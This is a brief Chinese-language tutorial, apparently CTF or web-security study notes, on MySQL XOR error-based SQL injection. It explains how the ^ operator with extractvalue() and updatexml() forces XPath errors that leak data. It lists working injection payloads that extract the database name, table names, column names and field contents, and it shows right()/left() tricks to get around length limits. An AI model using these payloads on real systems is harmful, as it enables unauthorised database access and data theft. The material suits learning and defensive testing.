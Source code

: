 异或注入的原理是通过强制类型转化报错的错误信息来获取信息。

mysql里异或运算符为`^` 或者 `xor`，这里的异或注入主要利用`^`

两者的区别在于 `^`运算符做**位异或运算** 如`1^2=3`

而 `xor`做**逻辑运算** `1 xor 0` 会输出1，其他情况输出其他所有数据 

xor的作用包括但不限于**绕过敏感词过滤、判断过滤内容和直接进行盲注利用**


于是payload可以写成

`a' ^ extractvalue(1,concat('~',(select(database()))))#`

同理`updatexml()`函数也可以，用法相同

##### ^运算符

**原理**

^ ：要求两边都是数字，所以`extractvalue()`一定会执行（它需要先求值才能参与异或运算

extractvalue(1,concat('~',(select(database()))))

- extractvalue(): 这是是 MySQL 的 XML 处理函数
- 第一个参数`1`: 1是一个伪 XML 文档
- 第二个参数`concat()`: 使用 concat() 构建一个无效的 XPath 表达式

当被注入后`extractvalue()`被执行

会生成一个无效的 XPath 表达式（如 ~database_name）

MySQL 会返回一个错误信息，错误信息中会包含数据库名：

    XPATH syntax error: '~database_name'

同理

[]中的name替换为实际name即可

表名：`a'^extractvalue(1,concat('~',(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('[database_name]'))))`

列名：`a'^extractvalue(1,concat('~',(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('[table_name]'))))`

字段：`a'^extractvalue(1,concat('~',(select(group_concat([column_name]))from([database_nam].[table_name]))))`

tips：针对长度过滤限制

利用`right()`函数，和`left()`函数

若一个不行就同时使用

`a'^extractvalue(1,concat('~',(select(right([column_name],30))from([database_nam].[table_name]))))`


获取左边：

`a'or(updatexml("~",concat("~",(select(group_concat(left([column_name],25)))from([database_nam].[table_name]))),"~"))`
